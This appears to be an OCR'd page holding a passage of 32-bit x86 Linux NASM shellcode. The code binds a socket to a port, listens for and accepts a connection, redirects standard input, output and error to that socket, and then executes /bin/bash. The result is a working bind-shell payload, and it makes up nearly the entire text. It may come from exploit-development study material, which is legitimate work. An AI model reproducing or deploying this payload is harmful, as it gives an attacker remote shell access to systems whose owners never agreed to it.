 ```nasm
    push word 0x5c11    ; Port
    push word 0x2       ; AF_INET
    mov esi, esp

    ; Bind socket
    mov al, 0x66        ; sys_socketcall
    mov bl, 0x2         ;   SYS_BIND
    push 0x10           ; socklen_t addrlen
    push esi            ; const struct sockaddr *addr
    push edi            ; int sockfd -> saved socket fd
    mov ecx, esp
    int 0x80            ; sys_socketcall (SYS_BIND)

    ; Listen for connection
    mov al, 0x66        ; sys_socketcall
    mov bl, 0x4         ;   SYS_LISTEN
    push edx            ; int backlog -> NULL
    push edi            ; int sockfd -> saved socket fd
    mov ecx, esp
    int 0x80            ; sys_socketcall (SYS_LISTEN)

    ; Accept connection
    mov al, 0x66        ; sys_socketcall
    mov bl, 0x5         ;   SYS_ACCEPT
    push edx            ; socklen_t *addrlen -> NULL
    push edx            ; struct sockaddr *addr -> NULL
    push edi            ; int sockfd -> saved sock fd value
    mov ecx, esp
    int 0x80            ; sys_socketcall (SYS_ACCEPT)
    mov edi, eax

    ; Redirect STDIN, STDOUT, STDERR to socket
    xor ecx, ecx
    mov cl, 0x3         ; counter for loop (stdin to stderr)
    mov ebx, edi        ; socket fd

    dup2:
    mov al, 0x3f        ; sys_dup2
    dec ecx
    int 0x80            ; sys_dup2
    inc ecx
    loop dup2

    ; execve()
    xor eax, eax
    push 0x41687361     ; ///bin/bashA
    push 0x622f6e69
    push 0x622f2f2f
    mov byte [esp + 11], al ; NULL terminate string
    mov al, 0xb         ; sys_execve
    mov ebx, esp        ; const char *filename
    xor ecx, ecx        ; char *const argv[]
    xor edx, edx        ; char *const envp[]
    int 0x80            ; sys_execve
```
